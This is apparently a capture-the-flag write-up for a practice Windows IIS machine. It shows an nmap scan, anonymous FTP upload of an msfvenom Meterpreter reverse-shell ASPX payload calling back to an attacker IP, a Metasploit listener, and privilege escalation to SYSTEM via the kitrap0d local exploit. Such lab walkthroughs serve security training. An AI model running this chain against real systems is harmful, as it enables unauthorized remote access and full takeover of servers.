 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)

**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive

Port 21 allows for anonymous FTP Login

![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded

![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)

FTP Upload
<pre>binary</pre>
Binary is more reliable than ASCII

![binary](https://user-images.githubusercontent.com/66635295/176751701-f44d6a90-93e3-4937-ab12-c4d92f0137e0.png)

<pre>put ex.aspx</pre>
Uploads the file to 10.10.10.5/ex.aspx

![ex](https://user-images.githubusercontent.com/66635295/176751874-9fdd0d59-5380-40a9-b910-e72ebe2600ac.png)

**PRIVILEGE ESCALATION**
---
**Meterpreter session**
<pre>getuid</pre>
Accessing the webpage provides a session to the application server  

![succ](https://user-images.githubusercontent.com/66635295/176753250-c97e1bdb-8d68-4274-8b61-4232a3343fca.png)

**Exploit suggestor**
<pre>backround</pre>
<pre>use post/multi/recon/local_exploit_suggester</pre>
<pre>set session 1</pre>
<pre>run</pre>
![sugg](https://user-images.githubusercontent.com/66635295/176753936-0f153344-9e85-4c34-a1d5-0e5b7cf8a6f9.png)

**Exploit list**
13 possible exploits found
![exploit](https://user-images.githubusercontent.com/66635295/176754492-af9345d4-e291-4828-aba1-9ff9cbf18696.png)

Exploit
<pre>use exploit windows/local/ms10_015_kitrap0d</pre>
<pre>set options</pre>
<pre>run</pre>
Creates a new session with SYSTEM privileges
![shelld](https://user-images.githubusercontent.com/66635295/176754686-000b763f-7ae4-43ab-8bcd-01692a5a11cc.png)
![swag](https://user-images.githubusercontent.com/66635295/176754750-d8f63b76-aed9-4088-b88e-ea164f55d797.png)

**Root shell**
<pre>shell</pre>
![shellll](https://user-images.githubusercontent.com/66635295/176754848-78819fce-4e69-40b0-9bb1-0dd217271dd8.png)
Flags for user and root on desktop
![flags](https://user-images.githubusercontent.com/66635295/176754936-eedc3dbf-0a4a-4f8a-8e92-c9c973ec486d.png)
